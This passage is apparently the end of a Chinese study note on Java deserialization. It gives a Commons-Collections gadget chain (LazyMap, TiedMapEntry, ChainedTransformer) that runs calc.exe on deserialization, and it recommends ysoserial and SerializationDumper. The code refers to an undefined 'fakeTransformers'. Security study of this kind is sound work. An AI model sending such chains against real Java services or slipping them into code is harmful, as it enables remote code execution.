 ```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,Class[].class }, new Object[] { "getRuntime",new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {"calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);//先绑定假transform
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```



测试图：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221119181540847.png)



工具推荐：SerializationDumper  16进制序列化内容转字符串

ysoserial  用户根据自己的利用链生成反序列化数据



 由于是阅读p神的《java安全漫谈》学习的，那帮P神做个宣传吧。文章或许有许多错误，请指正

> 我正在「代码审计」和朋友们讨论有趣的话题，你⼀起来吧？
> https://t.zsxq.com/08Yb